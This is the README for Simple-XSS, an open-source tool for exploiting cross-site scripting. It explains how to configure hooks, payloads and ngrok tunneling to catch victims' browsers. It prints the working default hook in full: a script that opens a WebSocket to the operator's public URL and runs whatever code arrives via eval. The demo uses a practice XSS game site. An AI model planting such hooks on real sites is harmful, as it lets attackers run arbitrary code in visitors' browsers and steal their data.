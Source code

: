 # Simple-XSS

<p align="center">
  <img src="res/big_logo.png"  alt="logo"/>
</p>

<a href="https://github.com/CrazyProger1/Simple-XSS/releases/download/V0.1/Simple-XSS-Windows-x64.zip"><img alt="GitHub all releases" src="https://img.shields.io/github/downloads/CrazyProger1/Simple-XSS/total"></a>
<a href="https://github.com/CrazyProger1/Simple-XSS/blob/master/LICENSE"><img alt="GitHub" src="https://img.shields.io/github/license/CrazyProger1/Simple-XSS"></a>
<a href="https://github.com/CrazyProger1/Simple-XSS/releases/latest"><img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/CrazyProger1/Simple-XSS"></a>

Simple-XSS is a multiplatform cross-site scripting (XSS) vulnerability exploitation tool. This application will help you
create a hook that can easily
and reliably catch a client by downloading a payload to their browser and executing it. You don't even need a white IP
for this because the application will take care of tunneling the connection between you and the victim.

## Usage

> Use `--help` argument to get help.
![commandline help](docs/help.png)

### GUI-Guide

Firstly, choose the hook. [Default hook](hooks/default) is the simplest hook, it is only suitable for forms without XSS
protection:

![step 1](docs/step_1.png)

Then, choose the payload. [Hello world payload](payloads/hello_world) is an example payload, it just alerts "Hello,
World!":

![step 2](docs/step_2.png)

Now, lets set up tunneling. Tunneling is needed to make a local server public. You have 2 options:

1) use one of the suggested tunneling apps (now it's only [ngrok](https://ngrok.com/))
2) tunnel ports yourself and pass the public URL of the HTTP tunnel to the program

![step 3](docs/step_3_1.png)

![step 3](docs/step_3_2.png)

Finally, you can run the process!

![step 4](docs/step_4.png)

Now you can copy the hook and start hunting ;D

![step 5](docs/step_5.png)

To demonstrate the possibilities, we can use site [xss-game.appspot.com](https://xss-game.appspot.com/).
Enter the hook into search form:

![step 6](docs/step_6.png)

Press "Search". As you can see, we have the alert dialog!

![step 7](docs/step_7.png)

Also, we have "Hello, World!" in our console:
![step 8](docs/step_8.png)




### Hook

> _Hooks folder: [hooks](hooks)_

**Hook** is an HTML code snippet designed to be embedded in a vulnerable XSS form. It looks like:

```html

<script>c = new WebSocket('{{environment.public_url}}');c.onmessage = (e) => eval(e.data);</script>
```

**NOTE:** _As you can see here is a built-in variable: {{environment.public_url}}. You can read more about
this below._

This is a [default](hooks/default) hook. When it's embedded in the vulnerable form, it downloads the JS
code ([payload](#payload)) via
WebSockets
protocol from the server and
executes it using [eval](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval).

Hook has the following structure:

```
|
+-- hook_folder
    |
    +-- hook.html
    |
    +-- package.toml
```

**hook.html** - main file, contains HTML code that can be embedded in vulnerable form.

**package.toml** - metadata file, contains data about hook such as name, description, author and version.

### Payload

> _Payloads folder: [payloads](payloads)_

**Payload** is an arbitrary JS code that loaded by hook on a vulnerable page and executed
with [eval](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval).

Payload has the following structure:

```
|
+-- payload_folder
    |
    +-- payload.js
    |
    +-- package.toml
    |
    +-- init.py
```

**payload.js** - main file, contains arbitrary JS code.

**package.toml** - metadata file, contains data about payload such as name, description, author and version.

**init.py** - python file, imported when loading payload. Allows you to interact with the client side of payload
(payload.js) via WebSockets protocol.

### Templating

**Built-in objects** is an objects passed into hook & payload main files
using [Jinja](https://jinja.palletsprojects.com/)
templating engine. It contains additional information that may be needed when loading a hook or payload.

#### Environment

- **public_url** - public address of WebSocket server

#### Metadata

**package** - hook or payload

- **name** - name of package
- **author** - package author
- **version** - version of package
- **description** - package description

If you need to use some variable, just use such construction: {{object.variable}}.
For example:

```
alert('{{metadata.name}} - V{{metadata.version}}')
```

The provided payload code snippet will display an alert dialog showcasing the name and version of the payload.

## Interface

> _Thanks to the use of the [Python Flet framework](https://flet.dev/), the application works equally well both in the
browser and in the graphical interface._

### Graphical

![GUI](docs/GUI.png)

### WEB

![WEB](docs/WEB.png)

### Command-Line

![CLI](docs/CLI.png)

## Installation

### Windows

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install requirements:

```commandline
cd Simple-XSS
pip install -r windows_requirements.txt
```

And finally you can run it:

```commandline
python main.py
```

### Linux

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install requirements:

```commandline
cd Simple-XSS
pip install -r linux_requirements.txt
```

And finally you can run it:

```commandline
python main.py
```

## License

Simple-XSS is released under the MIT License. See the bundled [LICENSE](LICENSE) file for details.
